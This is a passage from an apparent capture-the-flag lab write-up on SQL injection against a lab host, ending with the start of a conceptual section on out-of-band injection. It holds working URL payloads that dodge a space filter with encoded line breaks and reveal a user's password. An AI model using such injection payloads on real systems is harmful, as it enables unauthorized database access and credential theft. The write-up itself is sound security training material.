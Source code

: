 As seen, we can use our previous payload and we get this:

```
http://10.10.223.104/space/search_users.php?username=1%27%20||%201=1%20--+
```

![Pasted image 20250505153305.png](../../../IMAGES/Pasted%20image%2020250505153305.png)

Still does not work, seems like the filter is better on this page, it seems like the spaces are being omitted by the code, we can replace them by whitespaces and line breaks: 

```
%09 or %0A
```

Let's use this payload then:

```
http://10.10.223.104/space/search_users.php?username=1'%0A||%0A1=1%0A--%27+
```

![Pasted image 20250505153437.png](../../../IMAGES/Pasted%20image%2020250505153437.png)

It worked, there we got our answer:

```
Password for attacker user is: tesla
```

# Out-of-band SQL Injection
---

Out-of-band (OOB)Â SQLÂ injection is an attack technique that pentester/red teamers use to exfiltrate data or execute malicious actions when direct or traditional methods are ineffective. Unlike In-bandÂ SQLÂ injection, where the attacker relies on the same channel for attack and data retrieval, Out-of-bandÂ SQLÂ injection utilises separate channels for sending the payload and receiving the response. Out-of-band techniques leverage features likeÂ **HTTP**Â requests,Â **DNS**Â queries,Â **SMB**Â protocol, or other network protocols that the database server might have access to, enabling attackers to circumvent firewalls, intrusion detection systems, and other security measures.
